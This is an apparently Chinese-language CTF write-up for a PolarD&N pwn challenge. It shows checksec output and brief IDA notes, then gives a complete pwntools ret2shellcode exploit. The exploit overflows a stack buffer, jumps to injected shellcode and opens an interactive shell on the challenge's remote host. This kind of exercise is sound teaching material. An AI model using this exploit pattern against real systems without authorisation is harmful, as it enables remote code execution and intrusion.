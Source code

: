 ```yaml
---
title: 基础栈溢出ret2shellcode 写入栈上
layout: doc
---
```


> 需要关闭NX、

## 基础检查
> 本例题是PolarD&N的中等入门pwn题 getshell
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file pwn2          
pwn2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=223702b293e1903c70772cc6ed9ea4b6475e7599, not stripped
                                                                                          
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=pwn2          
[*] '/home/kali/win/Downloads/pwn2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## ida 
![alt text](image-11.png)

很显然v4的长度只有2，而v6很多，

v4写入shellcode的地址

v6写入shellcode
![alt text](image-12.png)

## exp
```py
from pwn import *
context(os="linux", arch='amd64')
io = process("./pwn2")
io = remote("120.46.59.242", 2056)

padding = 0x70 + 8

shellcode = asm(shellcraft.amd64.sh())

v4_addr = int(io.recvline().strip(),16) # 题目给出的地址 转为10进制发送
# ljust 将shellocde填充到缓冲器头部，自适应调整
payload = shellcode.ljust(padding, b'A') + p64(v4_addr)

io.sendline(payload)
io.interactive()
```